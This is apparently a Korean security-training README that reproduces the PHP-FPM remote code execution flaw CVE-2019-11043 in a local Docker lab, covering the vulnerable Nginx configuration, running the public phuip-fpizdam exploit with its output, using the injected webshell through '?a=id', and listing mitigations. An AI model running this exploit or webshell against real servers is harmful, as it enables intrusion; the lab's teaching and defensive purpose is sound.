



# PHP-FPM Remote Code Execution (CVE-2019-11043)

> 화이트햇스쿨 4기 : 정현교([@justkorean1681](https://github.com/justkorean1681))

## 요약

PHP-FPM은 PHP를 위한 FastCGI 구현체입니다. PHP 버전 7.1.x의 7.1.33 미만, 7.2.x의 7.2.24 미만, 7.3.x의 7.3.11 미만 버전에서, 특정 FPM 설정 조건하에 FPM 모듈이 할당된 버퍼를 넘어서(overflow) FCGI 프로토콜 데이터용으로 예약된 공간에 쓰기를 하도록 유발할 수 있으며, 이로 인해 원격 코드 실행(RCE)이 가능해집니다.

이 취약점은 Chaitin Tech가 주최한 Real World CTF 2019 예선(Quals) 중에 처음 발견되었습니다. 이 취약점은 PHP-FPM과 함께 동작하는 Nginx 서버가 특정 방식으로 잘못 설정(misconfiguration)되어 있을 때 영향을 받으며, 가장 흔한 취약 설정으로는 `location ~ [^/]\.php(/|$)` 규칙이 있습니다.

## 취약 조건

PHP 버전 7.1.x의 7.1.33 미만, 7.2.x의 7.2.24 미만, 7.3.x의 7.3.11 미만 버전에서 일어나는 취약점으로 FPM 모듈 자체의 메모리 처리 버그입니다. 이 버전대라면 설정과 무관하게 근본적으로 결함이 있습니다.

```Ngnix
location ~ [^/]\.php(/|$) {
    ...
    fastcgi_split_path_info ^(.+?\.php)(/.*)$;
    fastcgi_param PATH_INFO $fastcgi_path_info;
    fastcgi_pass php:8080;
}
```

Nginx의 위험한 location 정규식으로 인해

- `[^/]\.php` 패턴이 `.php`로 끝나기만 하면 뒤에 뭐가 붙든(`/아무거나`) 다 PHP-FPM으로 넘겨버립니다
- `fastcgi_split_path_info`가 URL을 쪼개서 `PATH_INFO`로 넘기는 과정에서, 요청에 개행문자(`\n`, URL 인코딩으로 `%0A`)가 섞이면 파싱이 깨지게 됩니다

또한 파일 존재 여부를 체크하지 않아, `/index.php\n악의적인문자열` 같은 요청을 넘겨버립니다.

## 환경 구성

윈도우 11 Pro 버전에서의 Docker에서 재구현되었습니다. 기본적으로 Docker를 실행할 수 있는 Hyper-V 가 사용되고 있어야 합니다.

모든 명령어는 CMD(명령 프롬프트)에서 실행되었습니다.


다음 명령을 사용하여 Nginx에서 취약한 PHP-FPM 7.2.10 서버를 구동합니다.

```CMD
docker compose up -d
```

서버 구동 이후, `http://localhost:8080/index.php` 를 통해 기본 페이지에 접속 할 수 있습니다. 



## 취약점 재현

다음 명령어를 통해, 익스플로잇 도구를 실행하여 구동된 서버에 취약점을 재현합니다.

```CMD
./phuip-fpizdam http://localhost:8080/index.php
```

익스플로잇 도구는 [https://github.com/neex/phuip-fpizdam](https://github.com/neex/phuip-fpizdam) 에서 받을 수 있습니다.

```CMD
.\phuip-fpizdam.exe http://localhost:8080/index.php
2026/07/09 16:58:55 Base status code is 200
2026/07/09 16:58:56 Status code 502 for qsl=1800, adding as a candidate
2026/07/09 16:58:56 The target is probably vulnerable. Possible QSLs: [1790 1795 1800]
2026/07/09 16:58:57 Attack params found: --qsl 1795 --pisos 248 --skip-detect
2026/07/09 16:58:57 Trying to set "session.auto_start=0"...
2026/07/09 16:58:57 Detect() returned attack params: --qsl 1795 --pisos 248 --skip-detect <-- REMEMBER THIS
2026/07/09 16:58:57 Performing attack using php.ini settings...
2026/07/09 16:58:57 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2026/07/09 16:58:57 Trying to cleanup /tmp/a...
2026/07/09 16:58:57 Done!
```

성공적으로 익스플로잇이 성공하게 되면 이와 같이 출력됩니다.



초기 익스플로잇 후 WebShell 이 PHP-FPM 프로세스에 주입됩니다. 다음 주소에 접속하여 명령을 실행할 수 있습니다.

```
http://localhost:8080/index.php?a=id
```

성공적으로 출력된것을 확인 할 수 있습니다.



## 중요 참고 사항

이 취약점은 일부 PHP-FPM 하위 프로세스에만 영향을 미칩니다. 명령이 첫 번째 시도에서 실행되지 않으면 영향을 받는 프로세스에 도달하기 위해 여러 번 시도해야 합니다. 혹은 새로고침을 해보셔도 됩니다.

익스플로잇의 성공 여부는 특정 Nginx 구성에 크게 좌우됩니다. 가장 일반적인 취약한 구성은 다음과 같습니다 :

- FastCGI 처리 활성화
- PHP-FPM을 통해 처리된 PHP 파일
- URL을 취약한 방식으로 분할하는 특정 위치 규칙

## 환경 종료

```CMD
docker compose down -v
```

## 대응 방안

- PHP 버전 업그레이드
- Nginx 설정에 파일 존재 체크 추가
- WAF (Web Application Firewall) 룰 적용
    - URL에 개행 문자(`%0A`, `\n`)가 포함된 요청 자체를 차단
    - 비정상적으로 긴 쿼리스트링(공격 특성상 1500~2000바이트대 padding 필요) 탐지 룰 추가
